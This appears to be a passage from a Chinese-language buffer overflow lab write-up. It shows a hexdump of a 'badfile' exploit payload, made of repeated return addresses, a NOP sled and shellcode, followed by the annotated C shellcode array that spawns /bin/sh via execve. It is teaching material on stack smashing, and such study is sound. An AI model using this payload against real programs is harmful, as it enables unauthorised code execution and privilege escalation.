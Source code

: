 


## 二、exploit 与 badfile

### badfile 文件内容



```asm
00000000: c7ca ffff c7ca ffff c7ca ffff c7ca ffff  ................
00000010: c7ca ffff c7ca ffff c7ca ffff c7ca ffff  ................
00000020: c7ca ffff c7ca ffff c7ca ffff c7ca ffff  ................
00000030: c7ca ffff c7ca ffff c7ca ffff c7ca ffff  ................
00000040: c7ca ffff c7ca ffff c7ca ffff c7ca ffff  ................
00000050: c7ca ffff c7ca ffff c7ca ffff c7ca ffff  ................
00000060: c7ca ffff 9090 9090 9090 9090 9090 9090  ................
00000070: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000080: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000090: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000000a0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000000b0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000000c0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000000d0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000000e0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000000f0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000100: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000110: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000120: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000130: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000140: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000150: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000160: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000170: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000180: 9090 9090 9090 9090 9090 9090 9090 9090  ................
00000190: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000001a0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000001b0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000001c0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000001d0: 9090 9090 9090 9090 9090 9090 9090 9090  ................
000001e0: 9090 9090 9090 9090 9090 9031 c050 682f  ...........1.Ph/
000001f0: 2f73 6868 2f62 696e 89e3 5053 89e1 99b0  /shh/bin..PS....
00000200: 0bcd 8000 00          
```



### exploit.c 源代码分析

#### shellcode

分析见注释：

```c
char shellcode[] =
  "\x31\xc0"    // xorl    %eax,%eax
  "\x50"        // pushl   %eax
  "\x68""//sh"  // pushl   $0x68732f2f
  "\x68""/bin"  // pushl   $0x6e69622f
  "\x89\xe3"    // movl    %esp,%ebx
  "\x50"        // push   %eax
  "\x53"        // push   %ebx
  "\x89\xe1"    // mov    %esp,%ecx   #
  "\x99"        // cdq                # set %eax to 0
  "\xb0\x0b"    // movb   $0x0b,%al   # set %al to 11
  "\xcd\x80"    // int    $0x80       # execve("/bin/sh",0,0)
;
```